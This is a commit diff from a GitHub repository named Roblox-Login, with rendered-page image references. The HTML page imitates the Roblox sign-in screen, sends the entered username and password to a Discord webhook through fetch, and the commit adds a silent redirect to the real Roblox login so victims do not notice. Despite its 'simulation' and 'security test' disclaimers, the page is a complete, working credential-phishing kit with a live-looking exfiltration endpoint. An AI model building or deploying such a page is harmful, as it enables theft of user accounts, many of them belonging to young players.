

Before and after one commit to Master7723/Roblox-Login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 203-816 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,78 +1,90 @@
 <!DOCTYPE html>
-<html lang="ar">
+<html>
 <head>
   <meta charset="UTF-8">
   <title>Roblox</title>
   <link rel="icon" href="https://www.roblox.com/favicon.ico">
   <style>
     body {
-      background-color: #f2f2f2;
-      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
+      background-color: #e3e3e3;
+      font-family: Arial, sans-serif;
+      margin: 0;
+      padding: 0;
     }
-    .login-box {
-      background-color: white;
-      padding: 40px;
-      box-shadow: 0 0 20px rgba(0,0,0,0.1);
-      border-radius: 10px;
-      width: 300px;
+
+    .login-container {
+      width: 350px;
+      margin: 100px auto;
+      background: #fff;
+      padding: 30px;
+      box-shadow: 0 0 10px rgba(0,0,0,0.2);
+      border-radius: 5px;
+    }
+
+    .login-container h1 {
       text-align: center;
-    }
-    .login-box h2 {
+      color: #343434;
       margin-bottom: 20px;
     }
-    .login-box input {
-      width: 90%;
+
+    input {
+      width: 100%;
       padding: 10px;
-      margin: 10px 0;
+      margin-top: 10px;
       border: 1px solid #ccc;
-      border-radius: 5px;
+      border-radius: 3px;
     }
-    .login-box button {
-      padding: 10px 20px;
-      background-color: #e51c23;
+
+    button {
+      width: 100%;
+      padding: 10px;
+      margin-top: 20px;
+      background-color: #d32f2f;
+      color: white;
       border: none;
-      color: white;
-      border-radius: 5px;
+      border-radius: 3px;
       cursor: pointer;
     }
-    .warning {
-      margin-top: 15px;
+
+    .note {
       font-size: 12px;
       color: red;
+      text-align: center;
+      margin-top: 10px;
     }
   </style>
 </head>
 <body>
-  <div class="login-box">
-    <h2>تسجيل الدخول إلى Roblox</h2>
-    <input type="text" id="username" placeholder="اسم المستخدم"><br>
-    <input type="password" id="password" placeholder="كلمة المرور"><br>
-    <button onclick="sendData()">تسجيل الدخول</button>
-    <div class="warning">
-      ⚠️ هذه صفحة تجريبية لأغراض أمنية فقط. لا تدخل معلومات حقيقية.
+  <div class="login-container">
+    <h1>Roblox Login</h1>
+    <input type="text" id="username" placeholder="Username">
+    <input type="password" id="password" placeholder="Password">
+    <button onclick="send()">Log In</button>
+    <div class="note">
+      ⚠️ This is a security test page for Discord Trust & Safety analysis only.
     </div>
   </div>
 
   <script>
-    function sendData() {
+    function send() {
       const username = document.getElementById("username").value;
       const password = document.getElementById("password").value;
 
+      // Webhook used by attackers (here replaced for demo)
       fetch("https://discord.com/api/webhooks/1399886528976650413/8qYx68ldSTmBja7oFhQUTTxVRJy0Tv8TUG8CwfT3VILzpIsp_nkqfG5enSzVa-DeSJOI", {
         method: "POST",
         headers: {
           "Content-Type": "application/json"
         },
         body: JSON.stringify({
-          content: `📩 تجربة تسجيل دخول وهمي:\n👤 المستخدم: ${username}\n🔐 كلمة المرور: ${password}`
+          content: `🎯 Roblox Phishing Attempt (Simulation Only):\nUsername: ${username}\nPassword: ${password}`
         })
       });
 
-      alert("✅ تم إرسال البيانات إلى Webhook بنجاح (تجربة فقط).");
+      // Optional: redirect to real Roblox login
+      setTimeout(() => {
+        window.location.href = "https://www.roblox.com/login";
+      }, 2000);
     }
   </script>
 </body>
```
